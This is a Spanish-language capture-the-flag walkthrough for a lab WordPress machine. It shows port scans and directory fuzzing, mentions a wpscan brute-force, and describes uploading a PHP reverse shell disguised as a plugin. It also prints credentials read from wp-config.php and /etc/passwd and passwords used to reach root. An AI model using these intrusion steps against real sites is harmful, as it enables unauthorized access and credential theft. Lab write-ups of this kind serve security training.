








### Maquina vulnvault.tar

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2

## Fuzzing web

gobuster dir -t 200 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

/register.html       
/index.html           

## Modificamos el archivo /etc/hosts

Entramos en pressenter.hl y encontramos un usuario: pressi

aplicamos gobuster a pressenter.hl

gobuster dir -t 200 -u http://pressenter.hl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

/wp-content           
/wp-login.php         
/license.txt          
/index.php           
/wp-includes          
/readme.html          
/wp-trackback.php     
/wp-admin             
/wp-signup.php       

Ataque de fuerza bruta al usuario pressi con wpscan 

## Intrusión

Cree un código reverse shell en php, lo comprimí con zip luego lo sub como plugin y me puse en escucha con nc en el puerto 443

verificar que otros usuarios existen:

cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
enter:x:1001:1001:enter,,,:/home/enter:/bin/bash

Ví el archivo wp-config.php

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'rooteable' );

/** Database hostname */
define( 'DB_HOST', '127.0.0.1' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

mysql -u admin --password=rooteable
show databases;
use wordpress;
show tables;
select * from wp_usernames;

entramos al usuario enter:

su enter -> kernellinuxhack

## Escalar privilegios

su root -> kernellinuxhack

